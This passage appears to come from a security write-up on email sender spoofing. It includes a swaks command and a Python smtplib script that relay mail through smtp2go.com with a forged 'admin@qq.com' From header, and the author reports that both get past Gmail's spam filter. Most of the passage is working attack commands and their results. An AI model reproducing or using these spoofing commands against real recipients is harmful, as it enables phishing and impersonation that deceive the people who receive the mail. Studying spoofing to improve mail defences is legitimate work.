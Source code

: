 But the email was rejected by the Tencent SMTP server directly. 

<img src="pic_10.png" width="60%" height="60%">

So I changed the SMTP server to smtp2go.com. The fake email was received successfully without being detected as spam, but the victim can notice the forwarding server in the email title.

<img src="pic_1.png" width="60%" height="60%">

I changed the target mailbox to Gmail and tested the *swaks* command and the python script.

```shell
swaks --header-X-Mailer smtp2go.com --to recursively.z@gmail.com --from xx@smtp2go.com --h-From: 'admin<admin@qq.com>'  --body body.txt --ehlo qq.com --server mail.smtp2go.com -p 2525 -au xxx -ap xxx
```

```python
# -*- coding: UTF-8 -*-

import smtplib
from email.mime.text import MIMEText
from email.header import Header

mail_host="mail.smtp2go.com"
mail_user="xxx"
mail_pass="xxx"


sender = 'test@smtp2go.com'
receivers = ['recursively.z@gmail.com']

message = MIMEText('This is a test mail', 'plain', 'utf-8')
message['From'] = Header("admin@qq.com", 'utf-8')
message['To'] =  Header(receivers[0], 'utf-8')

subject = 'Test'
message['Subject'] = Header(subject, 'utf-8')


try:
    smtpObj = smtplib.SMTP()
    smtpObj.connect(mail_host, 2525)
    smtpObj.login(mail_user,mail_pass)
    smtpObj.sendmail(sender, receivers, message.as_string())
    print("Success")
except smtplib.SMTPException:
    print("Error")
```

The command and script can bypass the Gmail spam filter. And the forwarding server can be seen in the email title as I mentioned above.

<img src="pic_9.png" width="40%" height="40%">
